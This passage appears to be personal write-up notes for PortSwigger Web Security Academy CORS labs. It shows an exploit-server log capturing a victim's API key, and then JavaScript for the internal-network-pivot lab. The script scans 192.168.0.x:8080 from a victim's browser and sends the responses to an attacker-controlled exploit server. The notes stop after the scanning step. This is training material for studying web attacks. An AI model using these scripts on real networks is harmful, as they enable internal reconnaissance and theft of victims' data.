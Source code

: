send to victim - response:
```htm
10.0.3.75       2022-08-20 13:08:31 +0000 "GET /exploit/log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%222vUQ4IQd0gPBX697zSSaEub9b43sFBVc%22,%20%20%22sessions%22:%20[%20%20%20%20%22nozSQVyipNukGtkve539VbQnay327QhK%22%20%20]} HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.101 Safari/537.36"
```

solution:
2vUQ4IQd0gPBX697zSSaEub9b43sFBVc


# 4. Lab: CORS vulnerability with internal network pivot attack
https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack

This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (192.168.0.0/24, port 8080) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user Carlos. 

pseudo code:
send to victim with access to intranet
scan ip daress for api
exploit fetch intra api to enter admin/delete?username=carlos

1. scan IP adress:
```javascript
<script>
var q = [], collaboratorURL = 'https://exploit-0a21005804569346c1bc01e201df00bd.web-security-academy.net/';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```
